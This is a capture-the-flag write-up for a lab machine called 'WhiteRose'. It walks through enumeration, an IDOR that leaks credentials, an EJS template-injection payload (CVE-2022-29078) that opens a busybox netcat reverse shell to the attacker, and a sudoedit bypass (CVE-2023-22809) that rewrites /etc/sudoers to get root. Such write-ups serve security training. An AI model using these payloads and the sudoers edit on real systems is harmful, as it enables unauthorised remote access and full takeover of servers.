 ```yaml
---
title: WhiteRose
published: 2024-12-01
description: 'This challenge is based on the Mr. Robot episode "409 Conflict". Contains spoilers!'
image: './WhiteRose-Images/cover.jpg'
tags: ["ESJ","Sudoedit CVE", "PrivSec" ,"Server side template injection RCE"]
category: 'Web Exploitation'
draft: false 
lang: ''
---
```


## Enumeration

- lets try scanning this web app
```sh
➜ nmap -sVC cyprusbank.thm 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-21 02:53 EST
Nmap scan report for cyprusbank.thm (10.10.231.114)
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 470.08 seconds
```

>  - Port 22 :
    22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
    (Ubuntu Linux; protocol 2.0)
>  - Port 80 :
    80/tcp open http nginx 1.14.0 (Ubuntu)

Let’s check the HTTP port ( port number 80 ) by going to →
When trying to access Port 80 ( http://whiterose.thm )
We are redirected to a new URL ( http://cyprusbank.thm )

```c
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.231.114   cyprusbank.thm
```

> Let’s do a Sub-Domain Brute Force ( FFUF )
```sh
➜ ffuf -u http://cyprusbank.thm/ -H "HOST: FUZZ.cyprusbank.thm" -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt -fw 1    


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm/
 :: Wordlist         : FUZZ: /usr/share/wordlists/amass/subdomains-top1mil-5000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

admin                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 99ms]
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 99ms]
:: Progress: [5000/5000] :: Job [1/1] :: 37 req/sec :: Duration: [0:00:20] :: Errors: 1 ::
```

> - Now after adding the Sub-Domain entry to /etc/hosts
> - Let’s check the page →

Can we use these credentials → ```Olivia Cortez : olivi8``` on this page ?
Let’s find out ..

## IDOR BUG

   - In the Message section we see the ending URL has a number
   - The vulnerability we can try here is called Insecure Direct Object Reference **(IDOR)**. This occurs when an application exposes a reference to an internal object (like a database record or file) directly in the URL. If there are no proper access controls or authorization checks, attackers can manipulate these references (in your case, changing the c parameter in the URL) to access resources they’re not authorized to view.

   - In this case , changing ```?c=1, ?c=2, etc.,``` might reveal different messages or records without proper permission checks, allowing unauthorized access to sensitive data. IDOR vulnerabilities are part of the broader Broken Access Control category in the OWASP Top 10.
![IDOR Picture](./WhiteRose-Images/idor.png)

Voila ! We found credentials on ?/c=8 for another User named →
```Gayle Bev```

## Exploitation

> We are able to now access the Settings page as User → Gayle Bev

  -  In the customer settings page there are two entries →
  - Enter a Customer Name & Enter a New Password

> Now keeping in mind that there are a lot of Customer names in the home page i tried entering the Individual Name and tried entering a New Password ,
> so that i can use these credentials to log into to that account ,
> Just like we did earlier , 
> but it doesn’t work that way .

> Time to use our Favourite tool **→ Burp Suite**

  -  Sending the request to Burpsuite as ```user:pass → admin:admin```
  -  User and Password can be set to anything ,
  -  Let’s get our request to Repeater in Burp Suite

![JS Picture](./WhiteRose-Images/js.png)

We found /home/web/app/views/settings.ejs
The file path ```/home/web/app/views/settings.ejs``` likely points to an EJS (Embedded JavaScript) template file used in a **Node.js** or **Express.js** web application.

   - After doing a little research i found a ```EJS SSTI vulnerability``` →
[EJS, Server side template injection RCE (CVE-2022-29078) - writeup](https://eslam.io/posts/ejs-server-side-template-injection-rce/?source=post_page-----972ee9129fe2--------------------------------)

> - in this PoC we are using port 1337 , but for this writeup i will be using port 1234 for the reverse shell , you can continue with the default one if you want .
> - For this case replacing the reverse shell used in ```PoC → nc -e sh IP-address PORT```by that of BusyBox from [revshells.com](https://www.revshells.com/) gave us the reverse shell successfully
```sh
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc [IP] [PORT] -e sh');s
```
![EJS Picture](./WhiteRose-Images/ejs.png)

We then checked the terminal and confirmed that we received a connection back as the user “web.” The next step was to stabilize the shell.
```sh
➜  CTF-Writeups nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.21.102.133] from (UNKNOWN) [10.10.0.0] 54174
python3 -c "import pty; pty.spawn(\"/bin/bash\")"
web@cyprusbank:~/app$ export TERM=xterm
export TERM=xterm
web@cyprusbank:~/app$ ^Z
[1]  + 8530 suspended  nc -lnvp 1337
➜  CTF-Writeups stty raw -echo; fg
[1]  + 8530 continued  nc -lnvp 1337
web@cyprusbank:~/app$
```
## Privilege Escalation
- We begin by listing the available sudo privileges for the current user using the ```sudo -l``` command. 
- Additionally, we check the version of sudoedit to identify any potential vulnerabilities. 
- Upon inspection, we discover that the sudo version is vulnerable to [CVE-2023-22809](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/?source=post_page-----972ee9129fe2--------------------------------). 
- This vulnerability allows us to bypass restrictions and gain the ability to read or edit any file by manipulating the ```EDITOR variable```.
```sh
web@cyprusbank:~/app$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
web@cyprusbank:~/app$ export EDITOR="vim -- /etc/sudoers"
web@cyprusbank:~/app$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
> - Once in vi, press i to enter insert mode and edit the file.
> - Remove the following line from the **/etc/sudoers** file:
> -  ```web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm```
> - Replace the following line:
 ```web ALL=(root) NOPASSWD: ALL```

![Sudo Picture](./WhiteRose-Images/sudo.png)

> - Now, we can run sudo commands without needing to provide the root password. Use ```sudo su``` to switch to the root user.

```sh
sudoedit: --: editing files in a writable directory is not permitted
2 files to edit
sudoedit: /etc/nginx/sites-available/admin.cyprusbank.thm unchanged
web@cyprusbank:~/app$ sudo su
root@cyprusbank:/home/web/app# ls -la
ls -la
total 40
drwx------  6 root root 4096 Apr  4  2024 .
drwxr-xr-x 23 root root 4096 Jul 12  2023 ..
lrwxrwxrwx  1 root root    9 Jul 16  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jul 16  2023 .cache
-rwxr-xr-x  1 root root  156 Apr  4  2024 clean.sh
drwx------  3 root root 4096 Jul 16  2023 .gnupg
drwxr-xr-x  3 root root 4096 Jul 16  2023 .local
drwxr-xr-x  5 root root 4096 Apr  4  2024 .pm2
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   21 Jul 15  2023 root.txt
```
**GOOD LUCK...**

